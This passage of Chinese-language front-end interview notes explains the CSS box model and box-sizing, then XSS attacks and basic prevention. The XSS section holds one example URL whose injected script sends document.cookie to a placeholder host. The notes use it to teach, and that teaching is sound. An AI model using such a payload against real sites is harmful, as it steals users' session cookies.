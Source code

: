 > [参考](https://segmentfault.com/a/1190000006104095)

---

## CSS盒模型

每个元素都表示为一个矩形的盒子。渲染引擎的目的，就是确定这些盒子的尺寸，属性和位置。

![box-model]({{ '/styles/images/interview/box-model.svg' | prepend: site.baseurl }})

+ 内容区: 包含元素真实内容的区域。`height`和`width`用来指定内容区的高度
+ 内边距: 内容与边框之间的间隔。这段距离使用`padding`控制
+ 边框: 边框很好理解，可以设置为不可见(`0px`)。有`boder-width`/`border-style`/`boder-color`等属性
+ 外边距: 用于将两个标签隔开。`margin`控制

> 有些属性，比如`background-color`，会填充边框以内的空白，包括内边距部分。

![box-model]({{ '/styles/images/interview/box-model.png' | prepend: site.baseurl }})

所以盒子边框如何计算。总宽度 = 宽度 + 左右内边距 + 左右边框宽度 + 左右外边距。

CSS3增加了一种新的计算盒子宽度的方式 - `box-sizing`。有三个可选值

+ `content-box`: 浏览器计算宽度和高度的常规方式，默认方式。边框和内边距加到所设宽度和高度上，用来确定元素在屏幕中所占的宽度和高度。
+ `padding-box`: width 和 height属性的值包括内边距。
+ `border-box`: 内边距和边框的宽度都包含在width 和 height中。

> [参考](https://leohxj.gitbooks.io/front-end-database/html-and-css-basic/box-module.html)

---

## 前端安全

#### XSS攻击

XSS(Cross-Site Scripting): 跨站脚本攻击。它允许攻击者将恶意代码植入到用户使用的页面中。攻击目标是**为了盗取存储在客户端的cookie或者其他网站用于识别客户端身份的敏感信息**。

XSS通常可以分为两大类：一类是**存储型XSS**，主要出现在让用户输入数据，供其他浏览此页的用户进行查看的地方，包括留言、评论、博客日志和各类表单等。应用程序从数据库中查询数据，在页面中显示出来，攻击者在相关页面输入恶意的脚本数据后，用户浏览此类页面时就可能受到攻击。这个流程简单可以描述为:恶意用户的Html输入Web程序->进入数据库->Web程序->用户浏览器。另一类是**反射型XSS**，主要做法是将脚本代码加入URL地址的请求参数里，请求参数进入程序后在页面直接输出，用户点击类似的恶意链接就可能受到攻击。

XSS的原理

Web应用未对用户提交请求的数据做充分的检查过滤，允许用户在提交的数据中掺入HTML代码(最主要的是“>”、“<”)，并将未经转义的恶意代码输出到第三方用户的浏览器解释执行，是导致XSS漏洞的产生原因。

> 比如: 访问有个网站http://127.0.0.1/?name=maoxiaoke会输出用户名字。如果恶意用户传递这样的url：http://127.0.0.1/?name=&#60;script&#62;document.location.href='http://www.xxx.com/cookie?'+document.cookie&#60;/script&#62;，这样就可以把当前的cookie发送到指定的站点：www.xxx.com。

如何预防XSS

答案很简单，坚决不要相信用户的任何输入，并过滤掉输入中的所有特殊字符。这样就能消灭绝大部分的XSS攻击。

+ 将用户所提供的内容进行过滤
+ 使用HTTP头指定类型
